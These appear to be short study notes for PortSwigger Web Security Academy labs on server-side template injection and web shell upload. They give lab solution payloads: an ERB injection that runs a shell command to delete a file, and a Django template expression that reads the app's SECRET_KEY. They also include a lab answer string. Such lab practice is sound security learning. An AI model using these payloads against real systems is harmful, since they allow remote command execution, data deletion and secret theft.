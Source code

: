 jinja template injection

Task List:

    SSTI Lab 1: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic
    solution
    <%= system("rm /home/carlos/morale.txt") %>

    SSTI Lab 2: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects

    {{settings.SECRET_KEY}}

    File Web Shell Upload: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass

    qyDMy6vUMLDXDpMCL21LzC73R4wyfXtR 